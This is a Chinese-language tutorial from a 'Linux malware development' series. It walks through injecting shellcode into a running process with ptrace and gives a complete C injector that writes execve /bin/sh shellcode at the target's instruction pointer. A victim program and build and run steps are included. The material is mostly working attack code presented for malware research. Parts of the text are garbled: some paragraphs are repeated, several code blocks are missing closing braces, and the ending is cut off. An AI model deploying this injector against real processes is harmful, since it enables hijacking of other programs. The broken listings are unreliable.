








\newpage
\subsection{Linux 恶意软件开发 3：使用 ptrace 进行 Linux 进程注入（简单的 C 示例）}

Windows 平台上已知的注入技术数量庞大，比如我博客里的第一、第二或第三个示例。

{width="80%"}

今天，我要带大家走进一种用 ptrace 系统调用实现的 Linux 注入技术。把 ptrace 想成属于你的一把钥匙，用来检视、修改乃至劫持其他进程。

今天，我要带大家走进一种用 `ptrace` 系统调用实现的 Linux 注入技术。把 `ptrace` 想成属于你的一把钥匙，用来检视、修改乃至劫持其他进程。

### ptrace

ptrace 是一个允许你调试远程进程的系统调用。发起调用的进程可以检视和修改被调试进程的内存与寄存器。例如 GDB 就是借助 ptrace 来控制被调试进程的。

{width="80%"}

ptrace 提供了若干有用的调试操作，例如：

- `PTRACE_ATTACH`——允许你附加到某个进程，从而暂停被调试进程。
- `PTRACE_PEEKTEXT`——允许你读取另一个进程地址空间中的数据。
- `PTRACE_POKETEXT`——允许你向另一个进程地址空间写入数据。
- `PTRACE_GETREGS`——读取进程寄存器的当前状态。
- `PTRACE_SETREGS`——写入进程寄存器的状态。
- `PTRACE_CONT`——让被调试进程继续执行。

### 实战示例

在这个循序渐进的教程中，我会展示如何做到：

- 附加到一个正在运行的进程。
- 注入自定义 shellcode。
- 劫持执行流程。
- 在执行结束后恢复原始状态。

我们会用一个简单的实战 C 示例把它彻底拆解开来。我们开始吧！

首先要做的是附加到我们感兴趣的进程。为此，只需用 `PTRACE_ATTACH` 参数调用 ptrace 即可：

```cpp
printf("attaching to process %d\n", target_pid);
if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
  perror("failed to attach");
  return 1;

```

这会暂停该进程，让我们可以检视它的内存和寄存器。

在对处理器寄存器做任何修改之前，我们必须先备份它们现有的状态。这使我们能够在稍后恢复执行：

```cpp
struct user_regs_struct target_regs;
//...
//...
// get the current registers
printf("reading process registers\n");
ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);
```

借助 `PTRACE_PEKDATA`，我们读取指令指针（RIP）处的内存。这一点至关重要，因为注入之后我们需要把进程恢复到原始状态。为此我专门写了一个 `read_mem` 函数：

```cpp
// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
  long val;
  char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }

```

我来逐步说明这个函数的工作流程。

ptrace 是以 `sizeof(long)` 字节为单位读取内存的。这个 union 让我们既能把数据当作 long 用于 ptrace 操作，又能通过 `bytes` 数组逐字节访问：

```cpp
union data_chunk {
  long val;
  char bytes[sizeof(long)];
} chunk;
```

然后我们按完整的 `sizeof(long)` 分块读取：

```cpp
int i = 0;
while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;

```

如你所见，这里我们从目标进程的某个特定内存地址读取一个 long（在 64 位系统上通常是 8 字节）。然后用 `memcpy` 把读到的数据复制到缓冲区。这个过程一直持续，直到所有完整的 `sizeof(long)` 分块都被读完。

接着处理剩余的字节：

```cpp
int remaining = len % sizeof(long);
if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);

```

逻辑很简单：如果长度（`len`）不是 `sizeof(long)` 的整数倍，就可能还剩下一些字节需要读取。该函数通过再读取一个完整的 long、并只把所需字节数复制进缓冲区来处理这些剩余字节。

于是，从目标进程 `addr` 处开始的整块内存（`len` 字节）就都存进了 `buffer`。

借助 `PTRACE_POKEDATA`，我们把自定义 shellcode 注入到目标进程的 RIP 处的内存中。

```cpp
// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
  long val;
  char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
  memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
  ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
  memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
  ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }

```

如你所见，这个函数和 `read_mem` 很像，只不过是写内存的逻辑。

下一个阶段，我们修改进程的指令指针（RIP），让它执行被注入的载荷：

```cpp
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

载荷执行完毕后，我们恢复原始的内存指令，以免让进程崩溃或留下痕迹：

```cpp
write_mem(target_pid, target_regs.rip, original_code, payload_len);
```

最后，从目标进程分离，让它恢复正常运行：

```cpp
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

不过有一个需要注意的地方。为什么在进程注入代码里我们要用 `waitpid`？

```cpp
/*
 * hack.c
 * practical example of linux process injection
 * author @cocomelonc
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>

// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
  long val;
  char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
  NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
  NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }

// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
  long val;
  char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
  memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
  ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
  memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
  ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }

int main(int argc, char *argv[]) {
  if (argc != 2) {
  printf("usage: %s <target_pid>\n", argv[0]);
  return 1;
  }

  pid_t target_pid = atoi(argv[1]);
  char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
  "\x69\x6e\x2f\x2f\x73\x68\x57\x54"
  "\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
  int payload_len = sizeof(payload) - 1;
  char original_code[payload_len];

  struct user_regs_struct target_regs;

  // attach to the target process
  printf("attaching to process %d\n", target_pid);
  if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
  perror("failed to attach :(");
  return 1;
  }
  waitpid(target_pid, NULL, 0);

  // get the current registers
  printf("reading process registers\n");
  ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);

  // backup the memory at RIP
  printf("backing up target memory\n");
  read_mem(target_pid, target_regs.rip, original_code, payload_len);

  // inject the payload
  printf("injecting payload\n");
  write_mem(target_pid, target_regs.rip, payload, payload_len);

  // hijack execution
  printf("hijacking process execution\n");
  ptrace(PTRACE_CONT, target_pid, NULL, NULL);

  // wait for the payload to execute
  wait(NULL);

  // restore the original code
  printf("restoring original process memory\n");
  write_mem(target_pid, target_regs.rip, original_code, payload_len);

  // detach from the process
  printf("detaching from process\n");
  ptrace(PTRACE_DETACH, target_pid, NULL, NULL);

  printf("injection complete\n");
  return 0;

```

当我们用 ptrace（通过 `PTRACE_ATTACH`）附加到一个进程时，目标进程并不会立刻停下。它会继续执行，直到操作系统递送一个信号，表明调试器（也就是我们的注入器）已经取得控制权。我们用 `waitpid` 阻塞自己这个注入器的执行，直到目标进程进入这种停止状态：

```cpp
ptrace(PTRACE_ATTACH, target_pid, NULL, NULL);
waitpid(target_pid, NULL, 0);
```

如果没有 `waitpid`，我们可能会在操作系统尚未保证目标进程完全停止之前就去读写它的内存，从而导致未定义行为。

此外，在进程注入中，我们往往还需要检测注入的 shellcode 何时执行完毕。为此我们使用软件中断，比如 `int 0x3` 指令，它会在目标进程中触发一个 SIGTRAP 信号。该信号会暂停进程，让我们能够通过 `waitpid` 重新取得控制权。

那么，`wait` 呢？它是什么，什么时候用？

`wait` 函数是 `waitpid` 的简化版本。它等待任意一个子进程状态发生变化。与 `waitpid` 不同，它不能指定特定的 PID，也不能使用高级选项。

在进程注入的场景中，我们通常不会用 `wait`，因为我们需要对特定进程（也就是我们的目标）进行细粒度控制，而这正是 `waitpid` 提供的。不过，当涉及多个子进程、且我们不关心哪一个先改变状态时，`wait` 倒也可以派上用场。

因此，有策略地使用 `waitpid`，我们就能确保进程注入过程顺利且可靠。

为简单起见，我只用了最简单的载荷：

```cpp
char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
"\x69\x6e\x2f\x2f\x73\x68\x57\x54"
"\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
```

### 演示

首先，为了演示目的，我们需要一个“受害者”进程。

首先，为了演示目的 我们需要一个“受害者”进程。这里是一个用 C 写的简单“受害者”进程，它运行一个无限循环，非常适合作为注入测试的目标。这个程序会周期性地打印消息，模拟一个真实运行中的进程：

```cpp
/*
 * meow.c
 * simple "victim" process for injection testing
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/22/linux-hacking-3.html
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
  printf("meow-meow... PID: %d\n", getpid());
  sleep(5); // simulate periodic activity
  }

  return 0;

```

编译这个受害者进程：

```bash
gcc meow.c -o meow
```

{width="80%"}

再编译 `hack.c` 注入器：

```bash
gcc -z execstack hack.c -o hack
```

{width="80%"}

先在我的 Ubuntu 24.04 虚拟机里运行受害者进程：

```bash
./meow
```

注意受害者进程打印出来的 PID：

{width="80%"}

我们这里是 PID = 5987。

现在就可以把这个 PID 作为注入的目标。例如：

```bash
./hack 5987
```

{width="80%"}

这会附加到受害者进程并注入我们的载荷，而受害者进程仍在继续运行：

{width="80%"}

{width="80%"}

如你所见，一切都运行完美！=..=

### 结语

这个实战示例展示了 ptrace 如何被武器化，用于向进程注入自定义 shellcode 并修改其执行流程。

当然，用 ptrace 实现这种技术并不新鲜，但它揭示了正当功能如何被滥用于恶意目的。

我希望这篇带有实战示例的文章对恶意软件研究人员、Linux 程序员以及所有对 Linux 内核编程和 Linux 代码注入技术感兴趣的人都有所帮助。

注：Linux 还提供了 `process_vm_readv()` 和 `process_vm_writev()`，用于读写进程内存。

[ptrace](https://docs.kernel.org/arch/powerpc/ptrace.html)  
[Linux malware development 1: intro to kernel hacking. Simple C example](https://cocomelonc.github.io/linux/2024/06/20/linux-kernel-hacking-1.html)  
[Linux malware development 2: find process ID by name. Simple C example](https://cocomelonc.github.io/linux/2024/09/16/linux-hacking-2.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-11-22-linux-hacking-3)

所以，我们这个代码注入“恶意软件”的完整源码如下（`hack.c`）：
